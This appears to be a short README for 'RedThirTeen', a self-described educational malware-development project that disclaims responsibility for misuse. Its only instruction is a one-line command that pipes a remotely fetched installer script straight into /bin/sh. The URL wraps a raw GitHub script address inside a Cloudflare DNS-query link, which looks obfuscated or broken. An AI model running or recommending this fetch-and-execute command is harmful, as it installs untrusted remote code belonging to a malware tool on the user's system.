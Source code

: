 # RedThirTeen

Simple Malware Development for educational purposes, decline any responsibility for misuses of this tools

To install the service run the following command to setup the server.

> /bin/sh -c "$(curl -fsSL https://cloudflare-dns.com/dns-query?name=https://raw.githubusercontent.com/th333boo/r3dth1rth33n/master/installer.sh)"
